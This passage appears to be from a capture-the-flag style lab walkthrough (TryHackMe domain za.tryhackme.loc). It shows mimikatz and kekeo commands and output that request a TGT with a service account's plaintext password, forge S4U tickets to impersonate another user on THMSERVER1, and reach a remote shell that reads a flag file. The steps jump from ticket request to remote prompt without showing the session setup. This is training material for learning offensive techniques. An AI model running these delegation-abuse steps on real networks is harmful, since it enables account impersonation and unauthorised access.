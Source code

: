 Revert token:

```text
mimikatz # token::revert
 * Process Token : {0;002e7dc8} 5 D 3496925     ZA\t2_alan.riley        S-1-5-21-3885271727-2693558621-2658995185-5243
(14g,24p)       Primary
 * Thread Token  : no token

mimikatz #
```

### Kekeo

Start kekeo in another Windows PowerShell session:

```text
PS C:\Users\t2_alan.riley> C:\Tools\kekeo\x64\kekeo.exe

  ___ _    kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 /   ('>-  "A La Vie, A L'Amour"
 | K  |    /* * *
 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
                                             with 10 modules * * */

kekeo # 
```

Generate a `TGT` using the `svcIIS` credentials that can be used to generate tickets for the `HTTP` and `WSMAN` services:

```text
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 10.200.60.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

Request `S4U TGS`s on behalf of `t1_trevor.jones` to the `HTTP` service and the `WSMAN` service on `THMSERVER1` 
using the `TGT`:

```text
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [11/7/2022 5:32:55 PM ; 11/8/2022 3:32:55 AM] {R:11/14/2022 5:32:55 PM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): ca2a5e5711972b192ef977c453cbf03096da849170c107db7fad1535852c1122
  [s4u2self]  t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 10.200.60.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>
[thmserver1.za.tryhackme.loc]: PS C:\Users\Administrator\Desktop> cat flag2.txt